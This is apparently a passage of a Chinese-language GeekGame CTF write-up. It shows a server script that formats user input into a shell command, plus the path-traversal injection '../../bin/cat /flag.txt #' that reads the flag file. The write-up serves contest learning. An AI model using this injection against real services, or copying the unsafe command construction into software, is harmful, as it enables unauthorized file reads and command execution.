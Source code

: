 ### 3. Z 公司的服务器

#### 服务器

直接打开网站链接发现不行，用 `nc prob05.geekgame.pku.edu.cn 10005` 后 Konsole 提示需要安装 `lrzsz`，`apt` 安装后即可接收文件

<br>

### 4. 猫咪状态监视器（第二阶段）

服务器运行的代码如下。只有 `STATUS` 可以输入一些内容

```python
while True:
    command = input("Command: ")
    if command == "LIST":
        cmd = "/usr/sbin/service --status-all"
        print(run(cmd))
    elif command == "STATUS":
        service_name = input("Service name: ")
        cmd = "/usr/sbin/service {} status".format(service_name)
        print(run(cmd))
    elif command == "EXIT":
        break
    else:
        print("Unknown command...")
```

按照提示查看 `/usr/sbin/service` 的代码，发现是直接用路径判断文件是否存在的

```bash
run_via_sysvinit() {
   # Otherwise, use the traditional sysvinit
   if [ -x "${SERVICEDIR}/${SERVICE}" ]; then
      exec env -i LANG="$LANG" LANGUAGE="$LANGUAGE" LC_CTYPE="$LC_CTYPE" LC_NUMERIC="$LC_NUMERIC" LC_TIME="$LC_TIME" LC_COLLATE="$LC_COLLATE" LC_MONETARY="$LC_MONETARY" LC_MESSAGES="$LC_MESSAGES" LC_PAPER="$LC_PAPER" LC_NAME="$LC_NAME" LC_ADDRESS="$LC_ADDRESS" LC_TELEPHONE="$LC_TELEPHONE" LC_MEASUREMENT="$LC_MEASUREMENT" LC_IDENTIFICATION="$LC_IDENTIFICATION" LC_ALL="$LC_ALL" PATH="$PATH" TERM="$TERM" "$SERVICEDIR/$SERVICE" ${ACTION} ${OPTIONS}
   else
      echo "${SERVICE}: unrecognized service" >&2
      exit 1
   fi
}
```

`SERVICEDIR` 是在 `/etc/init.d`。所以用以下 `name` 读取内容

```bash
../../bin/cat /flag.txt #
```

<br>

### 5. 基本功

